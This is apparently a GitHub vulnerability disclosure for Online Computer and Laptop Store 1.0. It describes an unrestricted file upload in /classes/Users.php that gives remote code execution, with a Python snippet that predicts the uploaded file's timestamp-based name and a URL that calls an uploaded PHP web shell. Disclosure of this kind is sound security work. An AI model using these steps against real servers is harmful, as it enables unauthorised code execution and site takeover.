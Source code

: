 # php-ocls
php-ocls
Online Computer and Laptop Store 1.0 allows Unrestricted file upload and can lead to remote code execution. The vulnerability located in /classes/Users.php?f=save. The name of the uploaded file can be easily obtained through the timestamp.

![图片](https://user-images.githubusercontent.com/58156046/233908793-43f8a51e-ea97-4bc1-a133-24040bd21e12.png)

1. Send the request and note when it was sent.

![图片](https://raw.githubusercontent.com/Jadore147258369/php-ocls/main/1.png)

2. Calculate the timestamp.

``` 
import time


timeArray = time.strptime('2023-04-24 13:40:00', "%Y-%m-%d %H:%M:%S")
time_format= time.mktime(timeArray)
print(int(time_format))
```

3. Get Shell.
http://192.168.3.43/php-ocls/uploads/1682314800_shell.php?cmd=phpinfo();

![asdasdasd](https://raw.githubusercontent.com/Jadore147258369/php-ocls/main/2.png)
